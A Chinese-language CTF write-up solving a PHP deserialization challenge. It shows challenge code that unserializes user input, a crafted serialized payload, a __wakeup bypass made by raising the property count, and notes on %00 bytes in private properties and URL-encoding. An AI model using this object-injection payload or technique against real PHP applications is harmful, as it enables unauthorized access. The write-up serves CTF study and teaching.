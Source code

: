 考察知识点：

1.反序列化

2.__wakkeup的绕过

3.private,public,属性方法序列化后的差异



# 1.本题就是简单的代码审计题



# 2.确定反序列化漏洞点

```javascript
index.php

<?php
include 'class.php';
$select = $_GET['select'];
$res=unserialize(@$select);
?>

class.php

<?php
include 'flag.php';


error_reporting(0);


class Name{
    private $username = 'nonono';
    private $password = 'yesyes';

    public function __construct($username,$password){
        $this->username = $username;
        $this->password = $password;
    }

    function __wakeup(){
        $this->username = 'guest';
    }

    function __destruct(){
        if ($this->password != 100) {
            echo "</br>NO!!!hacker!!!</br>";
            echo "You name is: ";
            echo $this->username;echo "</br>";
            echo "You password is: ";
            echo $this->password;echo "</br>";
            die();
        }
        if ($this->username === 'admin') {
            global $flag;
            echo $flag;
        }else{
            echo "</br>hello my friend~~</br>sorry i can't give you the flag!";
            die();

            
        }
    }
}
?>
```



# 3.攻击流程：

3.1 构造反序列化数据，触发__construct()方法给username和password赋值

3.2 改变序列化数据绕过__wakeup()



# 4.__wakeup魔法方法在serlize()时触发

假如原本序列化数据为：

s:77:"O:4:"Name":2:{s:14:" Name username";s:5:"admin";s:14:" Name password";i:100;}



当把Name后的数字2改为3时，就会造成错误，导致无法触发__wakeup()



# 5.此题需要注意，Name的属性为私有属性

不同属性序列化时有些许差异：

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/BD8467E79741464FAE0E0468022087B1clipboard.png)



可发现private属性序列化时，属性附近会有%00，%00计算机显示时为空格，防复制payload到浏览器时就变为了空格，此时payload就无法打通



列如：

s:77:"O:4:"Name":2:{s:14:" Name username";s:5:"admin";s:14:" Name password";i:100;}



# 6. 将payload url编码即可

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/CTFwriteup/buuctf练习笔记/images/470E4B5B1DBE4AE7A3AE85F6AB1879CFclipboard.png)









